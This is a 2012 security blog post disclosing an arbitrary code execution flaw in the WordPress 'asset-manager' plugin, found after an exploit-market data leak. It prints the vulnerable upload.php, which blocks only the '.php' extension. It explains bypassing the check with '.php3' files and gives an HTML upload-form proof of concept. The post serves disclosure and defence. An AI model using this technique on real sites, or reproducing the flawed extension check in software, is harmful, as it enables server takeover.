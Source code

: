 ```yaml
---
layout: post
status: publish
published: true
title: WordPress plugin Asset manager upload.php Arbitrary Code Execution
author:
  display_name: ethicalhack3r
  login: ethicalhack3r
  email: ryandewhurst@gmail.com
  url: ''
author_login: ethicalhack3r
author_email: ryandewhurst@gmail.com
excerpt: "The '<a href=\"http://1337day.com/\" target=\"_blank\">Inj3ct0r Team</a>'
  compromised an <a href=\"https://www.exploithub.com/\" target=\"_blank\">ExploitHub.com</a>
  database and released a <a href=\"http://priv8.1337day.com/exploitHUB.txt\" target=\"_blank\">file</a>
  publicly which contained some of the data about the exploits that ExploitHub buy
  and sell.\r\n\r\nI saw the file yesterday, had a quick skim over it, but didn't
  think too much of it. That is until WPScan team member <a href=\"https://www.twitter.com/@gbrindisi\"
  target=\"_blank\">@gbrindisi</a> pointed out that it contained 2 WordPress plugin
  vulnerabilities.\r\n\r\n"
wordpress_id: 16915
wordpress_url: http://www.ethicalhack3r.co.uk/?p=16915
date: '2012-12-12 19:10:38 +0000'
date_gmt: '2012-12-12 19:10:38 +0000'
---
```

<p>The '<a href="http://1337day.com/" target="_blank">Inj3ct0r Team</a>' compromised an <a href="https://www.exploithub.com/" target="_blank">ExploitHub.com</a> database and released a <a href="http://priv8.1337day.com/exploitHUB.txt" target="_blank">file</a> publicly which contained some of the data about the exploits that ExploitHub buy and sell.</p>
<p>I saw the file yesterday, had a quick skim over it, but didn't think too much of it. That is until WPScan team member <a href="https://www.twitter.com/@gbrindisi" target="_blank">@gbrindisi</a> pointed out that it contained 2 WordPress plugin vulnerabilities.</p>
<p>
  {% highlight text %}
  WordPress plugin Asset manager upload.php Arbitrary Code Execution,25.0000,2012-06-27 12:37:03,"491",Sooraj
WordPress plugin WP-Property uploadify.php Arbitrary Code Execution,25.0000,2012-06-27 12:44:25,"491",Sooraj
{% endhighlight %}</p>
<p>The vulnerability details and exploits are likely in the hands of the Inj3ct0r Team and god knows who else. We found the latest 'asset-manager' plugin (version 0.3) to be vulnerable and created a simple PoC. The 'wp-property' plugin did not contain the 'uploadify.php' file which is stated to be vulnerable, did they buy/sell vulnerabilities that hadn't been verified? The 'asset-manager' plugin is not as popular as the 'wp-property' plugin and has only been downloaded <a href="http://wordpress.org/extend/plugins/asset-manager/stats/" target="_blank">~700</a> times.</p>
<p>The 'asset-manager' vulnerability title states that the vulnerability lies within the 'upload.php' file. Taking a look at this file it is obvious to see why it is vulnerable.</p>
<p><a id="more"></a><a id="more-16915"></a></p>
<p>
  {% highlight php %}
  <?php
/**
 * Upload file to temp directory and return image information in JSON format.
 */
require('../../../wp-load.php');
require('paam-config-ajax.php');

if (!current_user_can('edit_pages')) die("No permission.");

if (isset($_FILES['Filedata'])) {
  $file_name = $_FILES['Filedata']['name'];
  
  $extension = substr(strrchr($file_name, '.'), 1);
  
  if ($extension == 'php') die("Invalid file extension.");
    
  //$unique_name = str_replace('-', '', uniqid()) . '.' . $extension;
  // not using unique names
  $unique_name = $file_name;
  move_uploaded_file($_FILES['Filedata']['tmp_name'], PAAM_TEMPPATH . $unique_name);
  
  echo '{result: 1, name: "' . $unique_name . '", path: "' . PAAM_TEMPURL . '/' . $unique_name . '"}';
}
{% endhighlight %}</p>
<p>The most important lines in this file are lines 8 and 15. Line 8 ensures that the file is only accesible to users with the 'edit_pages' permission. Line 15 checks that the file extension is not 'php', if it is, throw an error. (line 22 is likely to be vulnerable to XSS but this was not verified)</p>
<p>PHP by default can interpret code in files with extensions such as 'php3'. To exploit the above issue all you have to do is trick an authenticated user with sufficient privileges to send a file with the 'php3' (or variant) extension containing malicious PHP code to the server.</p>
<p>Here is a basic PoC:</p>
<p>{% highlight html %}
<html>
<head></head>
<body>

<form action="http://example.com/wp-content/plugins/asset-manager/upload.php" method="post" enctype="multipart/form-data">

  <input type="file" id="Filedata" name="Filedata" />
  <input type="submit" id="submit" />

</form>

</body>
</html>
{% endhighlight %}</p>
<p>With some JavaScript trickery, the submission of the form and file can be automated. The file will be uploaded to the '/wp-content/uploads/assets/temp/' directory.</p>
<p>The 'product_price' column in the Inj3ct0r leak says '25.0000', <del>what currency this is and the exact amount I don't know. It could be $25 or $25,000</del> <ins>it was $25</ins>. Either way, it shows that there is a market big or small for WordPress plugin vulnerabilities.</p>
<p>This will be added to the <a href="http://wpscan.org/" target="_blank">WPScan</a> databases so don't forget to update!</p>
<p>(only after doing the research and writing the blog post did I realise that it wasn't such a popular plugin, one more for the WPScan database anyway :)</p>
